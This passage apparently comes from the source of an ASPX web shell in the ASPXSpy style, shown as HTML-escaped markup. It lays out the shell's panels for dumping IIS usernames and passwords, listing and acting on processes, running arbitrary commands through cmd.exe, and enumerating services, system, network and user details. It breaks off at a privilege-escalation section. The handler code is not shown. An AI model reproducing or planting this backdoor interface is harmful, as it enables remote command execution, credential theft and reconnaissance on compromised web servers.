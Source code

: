 &lt;%--IISSpy--%&gt;
&lt;div runat="server" id="VNR" visible="false" enableviewstate="false"&gt;
&lt;table width="100%" border="0" cellpadding="4" cellspacing="0" style="margin:10px 0;"&gt;
&lt;asp:Table ID="GlI" runat="server" Width="100%" CellSpacing="0"&gt;
&lt;asp:TableRow CssClass="head"&gt;&lt;asp:TableCell&gt;ID&lt;/asp:TableCell&gt;&lt;asp:TableCell&gt;IIS_USER&lt;/asp:TableCell&gt;&lt;asp:TableCell&gt;IIS_PASS&lt;/asp:TableCell&gt;&lt;asp:TableCell&gt;Domain&lt;/asp:TableCell&gt;&lt;asp:TableCell&gt;Path&lt;/asp:TableCell&gt;&lt;/asp:TableRow&gt;
&lt;/asp:Table&gt;
&lt;/table&gt;
&lt;/div&gt;
&lt;%--Process--%&gt;
&lt;div runat="server" id="DCbS" visible="false" enableviewstate="false"&gt;
&lt;table width="100%" border="0" cellpadding="4" cellspacing="0" style="margin:10px 0;"&gt;
&lt;asp:Table ID="IjsL" runat="server" Width="100%" CellSpacing="0" &gt;
&lt;asp:TableRow CssClass="head"&gt;&lt;asp:TableCell&gt;&lt;/asp:TableCell&gt;&lt;asp:TableCell&gt;ID&lt;/asp:TableCell&gt;&lt;asp:TableCell&gt;Process&lt;/asp:TableCell&gt;&lt;asp:TableCell&gt;ThreadCount&lt;/asp:TableCell&gt;&lt;asp:TableCell&gt;Priority&lt;/asp:TableCell&gt;&lt;asp:TableCell&gt;Action&lt;/asp:TableCell&gt;&lt;/asp:TableRow&gt;
&lt;/asp:Table&gt;
&lt;/table&gt;
&lt;/div&gt;
&lt;%--CmdShell--%&gt;
&lt;div runat="server" id="vIac"&gt;
 &lt;p&gt;CmdPath:&lt;br/&gt;
 &lt;input class="input" runat="server" id="kusi" type="text" size="100" value="c:\windows\system32\cmd.exe"/&gt;
 &lt;/p&gt;
 Argument:&lt;br/&gt;
 &lt;input class="input" runat="server" id="bkcm" value="/c Set" type="text" size="100"/&gt; &lt;asp:Button ID="YrqL" CssClass="bt" runat="server" Text="Submit" OnClick="FbhN"/&gt;
 &lt;div id="tnQRF" runat="server" visible="false" enableviewstate="false"&gt;
 &lt;/div&gt;
&lt;/div&gt;
&lt;%--Services--%&gt;
&lt;div runat="server" id="iQxm" visible ="false" enableviewstate="false"&gt;
&lt;table width="100%" border="0" cellpadding="4" cellspacing="0" style="margin:10px 0;"&gt;
&lt;asp:Table ID="vHCs" runat="server" Width="100%" CellSpacing="0" &gt;
&lt;asp:TableRow CssClass="head"&gt;&lt;asp:TableCell&gt;&lt;/asp:TableCell&gt;&lt;asp:TableCell&gt;ID&lt;/asp:TableCell&gt;&lt;asp:TableCell&gt;Name&lt;/asp:TableCell&gt;&lt;asp:TableCell&gt;Path&lt;/asp:TableCell&gt;&lt;asp:TableCell&gt;State&lt;/asp:TableCell&gt;&lt;asp:TableCell&gt;StartMode&lt;/asp:TableCell&gt;&lt;/asp:TableRow&gt;
&lt;/asp:Table&gt;
&lt;/table&gt;
&lt;/div&gt;
&lt;%--Sysinfo--%&gt;
&lt;div runat="server" id="ghaB" visible="false" enableviewstate="false"&gt;
&lt;hr style=" border: 1px solid #ddd;height:0px;"/&gt;
&lt;ul class="info" id="Bin_Ul_Sys" runat="server"&gt;&lt;/ul&gt;
&lt;h2 id="Bin_H2_Mac" runat="server"&gt;&lt;/h2&gt;
&lt;hr style=" border: 1px solid #ddd;height:0px;"/&gt;
&lt;ul class="info" id ="Bin_Ul_NetConfig" runat="server"&gt;&lt;/ul&gt;
&lt;h2 id="Bin_H2_Driver" runat="server"&gt;&lt;/h2&gt;
&lt;hr style=" border: 1px solid #ddd;height:0px;"/&gt;
&lt;ul class="info" id ="Bin_Ul_Driver" runat="server"&gt;&lt;/ul&gt;
&lt;/div&gt;
&lt;%--UserInfo--%&gt;
&lt;div runat="server" id="xWVQ" visible="false" enableviewstate="false"&gt;
&lt;table width="100%" border="0" cellpadding="4" cellspacing="0" style="margin:10px 0;"&gt;
&lt;asp:Table ID="VPa" runat="server" Width="100%" CellSpacing="0" &gt;
&lt;/asp:Table&gt;
&lt;/table&gt;
&lt;/div&gt;
&lt;%--SuExp--%&gt;